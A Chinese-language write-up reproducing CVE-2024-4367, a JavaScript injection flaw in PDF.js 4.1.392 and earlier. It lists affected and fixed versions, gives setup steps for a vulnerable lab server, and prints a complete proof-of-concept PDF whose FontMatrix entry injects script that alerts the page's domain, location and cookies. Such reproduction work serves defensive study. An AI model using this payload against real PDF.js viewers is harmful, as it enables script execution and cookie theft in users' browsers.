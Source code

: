 # PDF.js 任意 JavaScript 代码执行 CVE-2024-4367

## 漏洞描述

PDF.js 是 Mozilla 推出的一款开源 PDF 文件阅读器。其 4.1.392 版本及以前，PDF.js 中存在一处 JavaScript 代码注入漏洞。

参考链接：

- https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/
- https://github.com/mozilla/pdf.js/archive/refs/tags/v4.1.392.zip

## 漏洞影响

影响版本：

```
v4.1.392 (released April 11, 2024): 受影响 (release before this bug was fixed)
v1.10.88 (released Oct 27, 2017): 受影响 (re-introduces the security vulnerability due to a typo fix)
v1.4.20 (released Jan 27, 2016): 受影响 (release before the next release that accidentally fixed the vulnerable code)
v0.8.1181 (released Apr 10, 2014): 受影响 (first public release of PDF.js)
```

安全版本：

```
v4.2.67 (released April 29, 2024): 不受影响 (fixed)
v1.9.426 (released Aug 15, 2017): 不受影响 (release before the next affected version)
v1.5.188 (released Apr 21, 2016): 不受影响 (mitigated the security vulnerability by an accidental typo)
```

## 环境搭建

Vulhub 执行如下命令启动一个使用了 PDF.js 4.1.392 的服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`可以看到一个上传页面。

> 2024/05/27_15:30:25.85
> Vulhub 拉取镜像未成功，源码搭建环境：

```
wget https://github.com/mozilla/pdf.js/archive/refs/tags/v4.1.392.zip
unzip v4.1.392.zip
cd pdf.js-4.1.392
npm install -g gulp-cli@^2.3.0
npm install
gulp server
```

> vps 需要修改 `./pdf.js-4.1.392/test/webserver.mjs`，将 `localhost` 改为 `0.0.0.0`：

```
this.host = host || "0.0.0.0";
```

## 漏洞复现

上传恶意PDF文件[poc.pdf](https://github.com/vulhub/vulhub/blob/master/pdfjs/CVE-2024-4367/poc.pdf)，即可触发XSS弹窗。

![](images/PDF.js%20任意%20JavaScript%20代码执行%20CVE-2024-4367/image-20240527152556731.png)

## 漏洞POC

poc.pdf

```
%PDF-1.4
%
8 0 obj
<<
/PatternType 2
/Shading<<
  /Function<<
    /Domain[0 1]
    /C0[0 0 1]
    /C1[1 0.6 0]
    /N 1
    /FunctionType 2
  >>
  /ShadingType 2
  /Coords[46 400 537 400]
  /Extend[false false]
  /ColorSpace/DeviceRGB
>>
/Type/Pattern
>>
endobj
5 0 obj
<<
/Widths[573 0 582 0 548 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 573 0 573 0 341]
/Type/Font
/BaseFont/PAXEKO+SourceSansPro-Bold
/LastChar 102
/Encoding/WinAnsiEncoding
/FontMatrix [0.1 0 0 0.1 0 (1\); \nalert\('document.domain: '+window.document.domain+'\\nlocation: '+window.location+'\\ncookie: '+window.document.cookie)]
/Subtype/Type1
/FirstChar 65
/FontDescriptor 9 0 R
>>
endobj
2 0 obj
<<
/Kids[3 0 R]
/Type/Pages
/Count 1
>>
endobj
9 0 obj
<<
/Type/FontDescriptor
/ItalicAngle 0
/Ascent 751
/FontBBox[-6 -12 579 713]
/FontName/PAXEKO+SourceSansPro-Bold
/StemV 100
/CapHeight 713
/Flags 32
/FontFile3 10 0 R
/Descent -173
/MissingWidth 250
>>
endobj
6 0 obj
<<
/Length 128
>>
stream
47 379 489 230 re S
/Pattern cs
BT
  50 500 Td
  117 TL
  /F1 150 Tf
  /P1 scn
  (AbCdEf) Tj
  /P2 scn
  (AbCdEf) '
ET
endstream
endobj
3 0 obj
<<
/Type/Page
/Resources 4 0 R
/Contents 6 0 R
/Parent 2 0 R
/MediaBox[0 0 595.2756 841.8898]
>>
endobj
10 0 obj
<<
/Length 800
/Subtype/Type2
>>
stream

endstream
endobj
7 0 obj
<<
/PatternType 1
/Matrix[1 0 0 1 50 0]
/Length 58
/TilingType 1
/BBox[0 0 16 16]
/YStep 16
/PaintType 1
/Resources<<
>>
/XStep 16
>>
stream
0.65 g
0 0 16 16 re f
0.15 g
0 0 8 8 re f
8 8 8 8 re f
endstream
endobj
4 0 obj
<<
/Pattern<<
  /P1 7 0 R
  /P2 8 0 R
>>
/Font<<
  /F1 5 0 R
>>
>>
endobj
1 0 obj
<<
/Pages 2 0 R
/Type/Catalog
/OpenAction[3 0 R /Fit]
>>
endobj

xref
0 11
0000000000 65535 f 
0000002260 00000 n 
0000000522 00000 n 
0000000973 00000 n 
0000002178 00000 n 
0000000266 00000 n 
0000000794 00000 n 
0000001953 00000 n 
0000000015 00000 n 
0000000577 00000 n 
0000001085 00000 n 
trailer
<<
/ID[(w4f) (w4f)]
/Root 1 0 R
/Size 11
>>
startxref
2333
%%EOF
```
